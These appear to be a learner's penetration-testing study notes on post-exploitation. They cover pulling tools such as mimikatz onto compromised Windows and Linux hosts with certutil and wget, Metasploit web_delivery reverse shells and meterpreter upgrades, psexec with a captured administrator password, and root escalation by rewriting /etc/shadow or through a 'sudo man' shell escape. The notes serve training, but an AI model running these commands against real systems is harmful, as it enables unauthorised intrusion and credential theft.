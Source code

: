   

### ==**Transferring Files To Windows & Linux Targets**==

  

- ==Setting Up A Web Server With Python==

> After obtaining initial access to target system , you will need to transfer files to the target system .

> python comes with built-in module known as `http.server` used to facilitate a simple HTTP server that gives u standard GET and HEAD request handlers .

  

- Setting Up A Web Server With Python
    
    - address the file u want to transfer , copy the path
    - Now `cd < the copied path >` ⇒ ==_To host any dir we want_==
    - After we copied file to the dir we want ⇒ `python3 -m http.server 80`
    
    > here we setup a web server via python , we can navigate it by reach [`http://127.0.0.1/`](http://127.0.0.1/) || `http://<linux ip >`
    
    - After we reach the web server , we can write any file and visit dir … etc.
    
      
    

  

- Transferring Files To Windows Targets
    
    - `nmap -sV -sS -O <target ip >` ⇒ To scan the target for open ports and what services are running on this ports
    - Find the services are running and try to exploit it .
    - After we gain access to target system via exploit the services running .
    - so now we need to transfer the exploit file to the target system
    - So after we exploit the service , we will get as example a command shell , so here we have a command shell not a metepreter session
    - On this point as a example we have just a administrator privis , so we need to escalation our privis to root privis
    
    > So we need to transfer a mimikatz to the target system as we know is a windows target , we need to transfer mimikatz
    
    - ==On local== ⇒ `python3 -m http.server 80` ⇒ to open a web server
        - `cd /usr/share/windows-resources/mimikatz/x64`
    - ==On target== ⇒ `cd c:\\` && `mkdir Temp` && `cd Temp`
        - `certutil -urlcache -f http://<our ip >/<file we want to transfer exploit.exe` ⇒ it’s worked as wget , it will navigate our ip and get the file .
    

  

- Transferring Files To Linux Targets
    
    - `nmap -sV -sS -O <target ip >` ⇒ To scan the target for open ports and what services are running on this ports
    - Find the services are running and try to exploit it .
    - After we gain access to target system via exploit the services running .
    - so now we need to transfer the exploit file to the target system
    - So after we exploit the service , we will get as example a command shell , so here we have a command shell not a metepreter session
    - On this point as a example we have just a administrator privis , so we need to escalation our privis to root privis
    
    💡
    
    T-Mux ⇒ Is a terminal multiplexer that allows you to have multiple terminal sessions within one terminal
    
    - `tmux` ⇒ that will open a new terminal session to work with
    - `cd /usr/share/webshells/php` ⇒ to navigate the webshells file
        - `python3 -m http.server 80`
    - ==On Target system== ⇒ `wget http://< our ip >/<file we want to transfer>`
    
      
    

  

  

  

### ==_**Shells**_==

  

- ==Upgrading Non-Interactive Shells==
    
    - `nmap -sV -sS -O <target ip >` ⇒ To scan the target for open ports and what services are running on this ports
    - Find the services are running and try to exploit it .
    - After we gain access to target system via exploit the services running .
    - `cat /etc/shells` ⇒ that will list all shells we have on target system to interact with them
    
    > if python installed , and we can a command with it , to check ⇒ `python - -version`
    
    - `python3 -c ‘import pty; pty.spawn(”/bin/bash”)’` ⇒ that will give us a bash session if it’s not installed on the target .
    
    > Any other shell u want to get , search to programing Lang that is made with , then search how to get it
    

  

  

  

## ==_**Escalation**_==

### ==Windows Privilege Escalation==

  

- ==_Identifying Windows Privilege Escalation Vulnerabilities_==

> in order to elevate your privileges on windows , you must first identify privilege escalation vuln that exist on the target system

> `PrivescCheck` ⇒ This script aims to eunmerate common windows configuration issues that can be leveraged for local privilege escalation
> 
> - [https://github.com/item4n/PrivescCheck](https://github.com/item4n/PrivescCheck)

  

- _Identifying Windows Privilege Escalation Vulnerabilities_
    
    > let’s assume we have a two tabs ⇒ our machine (kali) && target system (windows) , we have access on target system , but we dose not have a shell session on kali
    
    - `search web_delivery` && `use exploit/multi/script/web_delivery`
    
    > ==web_delivery== ⇒ ==is a msfconsole module that used to ⇒ it’s generate a command , when the target run this command on his machine that will open shell session on our kali machine==
    
    - `set target PSH\ (Binary)` && `set payload windows/shell/reverse_tcp` && `set PSH-Encodedcommand false` && `set lhost <our ip>` && `exploit` ⇒ when that execute we will see a powershell command appear , so just we need the target to run it on his command prompt
    - if we back to kali we can see a shell session opened
    - Now we need to make it a metepreter session ⇒ `search shell_to_metepreter` && `use post/multi/manage/shell_to_metepreter` && `set lhost < our ip>` && `set session 1` && `set win_transfer VBS` && `exploit` ⇒ then we will received a metepreter session
    - `migrate to x64`
    - now with one of the transferring file method , transfer the `PrivescCheck` script to the target system
    - ON GITHUB REPO WE WILL FIND THE A LOT OF TYPES OD USAGE ⇒ `copy one of them and run it on target`
    - when u run it ⇒ ==it will back with a lot of info and types of privilege escalation we can export==
    
      
    

  

  

- _Windows Privilege Escalation_
    
    - After we identify what privilege escalation vuln we have on target system
    - Let’s assume we obtain one of the priviscCheck result is the administrator password
    - Using ==[psexec.py](http://psexec.py)== ⇒ `psexec.py Administrator@<target ip>` && `enter the password`
    - using psexec On msfconsole ⇒ `use exploit/windows/smb/psexec` && `set lhost <your ip >` && `set lport 1234` && `set smbuser administrator` && `set smbpass <the password >` && `set rhost <target ip>` && `run`
    
      
    

  

  

### ==_**Linux Privilege Escalation**_==

  

- ==Linux Privilege Escalation - Weak Permissions==

> `LinEnum` ⇒ to automate the process of identify Privilege Escalation

> As we know in linux we can as a example limit some files , or I want only the root user to modify the file or execute it ⇒ so here we are going to to be trying to identify files that are cannot be edited by standard user , and try to find one of these file have a misconfigured

  

- Linux Privilege Escalation - Weak Permissions
    
    - After we get access on target system
    - `find / -not -type l -perm -o+w` ⇒ so here we want to list all files that can be edited with everyone on the system
    - so now we want to try find a file can be helpful with elevate our privilege
    - try to find files under /etc ⇒ as example `/etc/shadow`
    - so this file have all users hashes and maybe the passwords so this is huge security misconfiguration
    - So in this example we have ability to edit the /etc/shadow file ⇒ but we know that the file continue the users hashes , soif we want to edit the file we need to hash it before edit
    - `openssl passwd -1 -salt abc password` ⇒ that will hash the “password” in weakest hash algorithm
    - copy the result and with any texteditor modify the value to the new one
    - now `su` && ask to enter the password ⇒ `password` , and boom we logged on as root
    
      
    
      
    
      
    

  

- Linux Privilege Escalation - SUDO Privileges
    
    - After we get access on target system
    - `sudo -l` ⇒ that will return with what command the user can make without root privilege
    - So if we find any binary we can executed without root privilege
    - let’s assume the command return with ⇒ the user can make or run man with sudo without root password , that’s mean the users can run man with sudo without privileges , so this is misconfiguration on sudo
    - so if we run this ⇒ `sudo man ls` , we can see that return with man page of ls
    - ==_now we know that man page can actually run any command , so if we run the command and we run the man via sudo we will run this command with root privilege_==
    - `sudo man ls` && when it’s open ⇒ `!/bin/bash`
    
    > so because we can run the man with sudo , when this command executer it’s will return with bash session with root privilege